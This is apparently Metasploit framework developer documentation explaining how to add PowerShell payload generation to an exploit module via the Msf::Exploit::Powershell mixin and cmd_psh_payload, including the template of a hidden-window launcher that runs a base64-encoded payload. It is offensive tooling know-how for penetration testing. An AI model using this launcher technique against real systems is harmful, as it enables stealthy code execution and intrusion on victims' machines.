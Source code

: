 ### Requirements
### Usage
* To add PowerShell to your module, first you need to require it:
```ruby
require 'msf/core/exploit/powershell'
```

* And then include the mixin within the scope of the
```Metasploit3```

class (or maybe
```Metasploit4```

for some)
```ruby
include Msf::Exploit::Powershell
```

* Use the
```cmd_psh_payload```

method to generate the PowerShell payload.
```ruby
cmd_psh_payload(payload.encoded, payload_instance.arch.first)
```

The actual output of
```cmd_psh_payload```

is a system command, which would look like the following format (as a one-liner):
```
%COMSPEC% /B /C start powershell.exe -Command $si = New-Object
System.Diagnostics.ProcessStartInfo;$si.FileName = 'powershell.exe';
$si.Arguments = ' -EncodedCommand [BASE64 PAYLOAD] ';
$si.UseShellExecute = $false;
$si.RedirectStandardOutput = $true;$si.WindowStyle = 'Hidden';
$si.CreateNoWindow = $True;
$p = [System.Diagnostics.Process]::Start($si);
```

